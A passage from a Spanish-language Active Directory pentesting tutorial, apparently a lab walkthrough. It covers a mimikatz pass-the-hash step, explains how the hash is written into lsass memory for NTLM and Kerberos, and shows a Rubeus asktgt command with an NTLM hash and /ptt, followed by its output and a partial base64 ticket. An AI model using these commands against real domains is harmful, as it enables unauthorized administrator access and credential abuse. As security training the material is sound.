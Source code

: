 Vemos en esta parte de aqui:

```
msv1_0   - data copy @ 00000224E7C04E80 : OK !
```

Que estaba sobreescribiendo en la direccion de memoria `00000224E7C04E80` del proceso `lsass` el `hash` que nosotros le habiamos pasado del `administrador` mediante el paquete de autenticacion `msv1_0` que se corresponde con el paquete de autenticacion `NTLM`, pero si seguimos viendo, seguidamente veremos esto:

```
kerberos - data copy @ 00000224E7D777C8
```

Vemos que tambien nos esta sobreescribiendo la direccion de memoria `00000224E7D777C8` donde esta el `hash` que se almacena de la autenticacion de `kerberos` por nuestro `hash` que hemos metido con `mimikatz` pudiendo realizar asi tambien acciones respecto al `dominio`.

Por ejemplo, si nosotros ponemos esto, cuando obtenermos el `cmd` autenticados como el `administrador` en los 2 protocolos:

```cmd
dir \\DC01\c$
```

Veremos que si nos deja listar ya que sobreescribimos nuestro `hash` tambien en el de `kerberos` que es el que se encarga del `dominio` en estos casos de autenticacion frente a un `dominio` y si lo hicieramos con una `IP` seria mediante la autenticacion `NTLM`.

Con `Rubeus.exe` podremos solicitar un `TGT` como el usuario `Administrador` con el `hash NTLM` que obtuvimos anteriormente, para que nos lo proporcione el mismo `kerberos`.

Abrimos una `PowerShell` como `administrador` local:

```powershell
cd C:\Users\empleado1\Desktop\Rubeus-master\Rubeus\bin\Debug
.\Rubeus.exe asktgt /domain:corp.local /user:Administrator /rc4:a87f3a337d73085c45f9416be5787d86 /ptt
```

Info:

```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: a87f3a337d73085c45f9416be5787d86
[*] Building AS-REQ (w/ preauth) for: 'corp.local\Administrator'
[*] Using domain controller: 192.168.5.5:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIFGDCCBRSgAwIBBaEDAgEWooIELjCCBCphggQmMIIEIqADAgEFoQwbCkNPUlAuTE9DQUyiHzAdoAMC
AQKhFjAUGwZrcmJ0Z3QbCmNvcnAubG9jYWyjggPqMIID5qADAgESoQMCAQKiggPYBIID1GfEEWb8Ql2n
gZfBjSKd0U9o/R0qQx0h/6/GQIenH+7CdaaYZbuyf6EXaFWMtQtUowETn7/ipVO7kS9lfbLtXHIt1isV
a22TXTycnql6DLgRL0Rqpk/1c+Xycj3kT33UB99icw8OtxB6xND0+VDSGRyjMDQYp8x+HAsZ7HN7GZSg
iQPHbQ57fO7+Re1xRNy6O7a611AFHP9IMhULUtLNxhc49FQIo/AZHDG0JKSEtQ0vbhA4ZWuLYvxiGYZM
tBB7tirNY2d6rP1VAObTmZ2XgbrXnGqIfKwdzBZfS9ZIDxuFMHfgnOolXboCrYlyNcn5XZnMBCcQ0m3C
D0ElH+mHElFjSUCJ8goRZoZe8pL6nT1XGNsaHFrlOPYZ0QQCkcX7huwoSCdwCTNWPtm2Hm5uAU0GN3As
FiB3nHrCNGwoq5ZEbhvSWU48ElAF5UWghjqjGXyfgtwbnUht0vFNG0apgDN3hrvUUl/SGmogagDr27Mr
LXJqhY6pYHWJLRY4FPhHf7hheV2rrTjq0vWJMLZZHYK23825oPaLMsuRBbUvoBOFNscxTnJgvK55CueC
deV4D+Z9cQx6uap/pU1J11eOGFyxqr0kt3eLjK4xLLpmcViuntoQ+mhPgDSqs0STzyPnRfJBsjpgKKOn
```